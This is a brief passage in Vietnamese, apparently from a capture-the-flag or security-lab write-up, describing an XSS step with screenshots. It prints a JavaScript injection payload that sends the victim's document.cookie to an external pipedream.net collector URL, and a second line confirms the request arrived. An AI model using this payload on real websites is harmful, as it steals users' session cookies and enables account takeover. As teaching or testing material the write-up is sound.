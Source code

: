 ![1](1/../img/20/Screenshot%20from%202023-01-29%2014-48-14.png)

- Vậy ta dùng payload này để gửi cookie:

```
1+1`${document.location="https://1cbc05c9d3b9533c136bdb7d71fce3a0.m.pipedream.net?c="+document.cookie}\`
```

- Thấy nó đã gửi được request:

![1](1/../img/20/Screenshot%20from%202023-01-29%2014-51-24.png)
